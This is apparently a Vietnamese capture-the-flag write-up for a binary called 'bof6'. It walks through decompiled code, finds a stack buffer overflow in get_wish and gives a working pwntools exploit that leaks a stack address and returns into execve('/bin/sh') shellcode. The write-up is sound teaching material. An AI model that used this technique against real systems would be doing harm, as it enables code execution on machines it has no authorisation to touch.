


**1. Tìm lỗi**

Dùng lệnh file kiểm tra



là file elf 64bit -> mở bằng ida64 ta có hàm main như sau:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+8h] [rbp-8h] BYREF
  int v5; // [rsp+Ch] [rbp-4h]

  v5 = 0;
  init(argc, argv, envp);
  while ( !v5 )
  {
    puts("Welcome to christmas gifting system");
    puts("1. Enter your name");
    puts("2. Send a wish");
    puts("3. Exit");
    printf("> ");
    __isoc99_scanf("%d", &v4);
    if ( v4 == 1 )
    {
      get_name();
    }
    else if ( v4 == 2 )
    {
      get_wish();
    }
    else
    {
      v5 = 1;
    }
  }
  return 0;
}
```

Hàm get_name():

```
int get_name()
{
  char buf[80]; // [rsp+0h] [rbp-50h] BYREF

  puts("What's your name?");
  printf("> ");
  read(0, buf, 0x50uLL);
  printf("Hello %sI have a message from santa:\n", buf);
  puts("----------------------------------------------------------");
  puts(
    "| Due to your good behavior, I will give you a wish.     |\n"
    "| You can wish for anything you want and I will give you |\n"
    "| that as a gift for being a good boy!                   |");
  return puts("----------------------------------------------------------");
}
```

Hàm get_wish():

```
ssize_t get_wish()
{
  char buf[512]; // [rsp+0h] [rbp-200h] BYREF

  puts("What do you want for christmas?");
  printf("> ");
  return read(0, buf, 0x220uLL);
}
```

Ở hàm get_wish ta có biến buf được khai báo 512 byte nhưng chương trình cho phép nhập 0x220 = 544 byte -> có lỗi bof

Dùng lệnh checksec kiểm tra



Ta thấy NX đang disabled nên có thể khai thác bằng shellcode

**2. Ý tưởng**

Đi vào hàm get_name để lấy địa chỉ stack để ghi shellcode. Tiếp tục đi vào hàm get_wish lợi dụng lỗ hổng bof để ghi shellcode vào

**3. Viết script**

```
from pwn import *

r = process("./bof6")

#input()
#Leak stack
r.sendlineafter('> ', b'1')
r.sendafter('> ', b'a'*0x50)
r.recvuntil(b'a'*0x50)
stack_leak = u64(r.recv(6) + b'\x00\x00')
print(hex(stack_leak))

shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdi, 29400045130965551
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
    ''', arch='amd64')
payload = shellcode
payload = payload.ljust(536 - 16)
payload += p64(stack_leak - 0x220)
r.sendlineafter('> ', b'2')
#input()
r.sendafter('> ', payload)

r.interactive()
```